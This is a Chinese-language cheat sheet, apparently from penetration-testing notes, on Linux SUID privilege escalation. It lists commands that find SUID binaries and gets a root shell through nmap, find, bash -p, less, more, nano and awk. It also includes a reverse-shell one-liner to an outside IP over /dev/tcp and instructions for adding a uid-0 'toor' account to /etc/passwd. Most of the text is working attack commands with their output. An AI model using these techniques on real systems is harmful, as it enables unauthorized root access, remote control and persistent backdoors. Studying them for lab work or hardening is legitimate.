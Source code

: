 ### Suid提权

SUID (Set UID)是Linux中的一种特殊权限,其功能为用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。**但是SUID权限的设置只针对二进制可执行文件,对于非可执行文件设置SUID没有任何意义.**



设置SUID

```shell
chmod u+s filename   设置SUID位
chmod u-s filename   去掉SUID设置
```

以下命令可以找到正在系统上运行的所有SUID可执行文件。

```shell
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} 、;
```



**nmap:**

适用版本:nmap2.02至5.21在早期nmap版本中,带有交互模式,因而允许用户执行shell命令使用如下命令进入nmap交互模式:

```shell
nmap --interactive
# 交互模式下使用如下命令
nmap> !sh
sh-3.2# whoami
root
```

msf当中也有利用nmap进行提权的模块

```shell
exploit/unix/local/setuid_nmap
```



**find:**

find比较常用,find用来在系统中查找文件。同时，它也有执行命令的能力。 因此，如果配置为使用SUID权限运行，则可以通过find执行的命令都将以root身份去运行。

```shell
touch anyfile #必须要有这个文件
find anyfile -exec whoami \;
```

```shell
#进入shell
find anyfile -exec '/bin/sh' \;
sh-5.0# whoami
root
```

反弹shell：

```shell
find anyfile -exec bash -c 'bash -i >& /dev/tcp/114.xxx.xxx.96/4444 0>&1' \;
```



**vim.tiny**

修改/etc/passwd添加root权限用户

格式：

用户名:密码:uid:gid:注释:home目录:用户的shell

密码部分为x，可以生成：

openssl passwd -1 -salt '12345678' 

hummer加密后如下：

$1$12345678$ix0nucj0z5H3gZoaHdFFq1

在/etc/passwd 中添加toor用户

toor:$1$12345678$ix0nucj0z5H3gZoaHdFFq1:0:0:root:/toor:/bin/bash



**bash**

```shell
bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)
```



**less**

```shell
less /etc/passwd
#在less中输入:
!/bin/sh
```



**more**

```shell
more /etc/passwd
#在more中输入:
!/bin/sh
```



**nano**

```shell
nano #进入nano编辑器
Ctrl + R
Ctrl + X 
#即可输入命令
```



**cp**

使用cp 命令覆盖原来的`/etc/passwd`文件



**awk**

```shell
awk 'BEGIN {system("/bin/bash")}'
```

